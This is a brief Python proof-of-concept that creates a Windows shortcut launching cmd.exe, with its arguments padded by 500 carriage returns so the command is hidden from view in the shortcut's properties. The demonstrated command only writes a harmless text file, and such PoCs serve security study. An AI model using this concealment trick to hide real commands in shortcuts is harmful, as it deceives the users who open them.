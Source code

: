 # poc

from win32com.client import Dispatch


shell = Dispatch("WScript.Shell")
shortcut = shell.CreateShortcut(r"c:/windows/temp/1.lnk")
shortcut.TargetPath = '%windir%\SysWow64\cmd.exe'
shortcut.WorkingDirectory = "c:/windows/temp/"
shortcut.Arguments = '\r'*500+'/c "echo 111> 1.txt"'
shortcut.save()
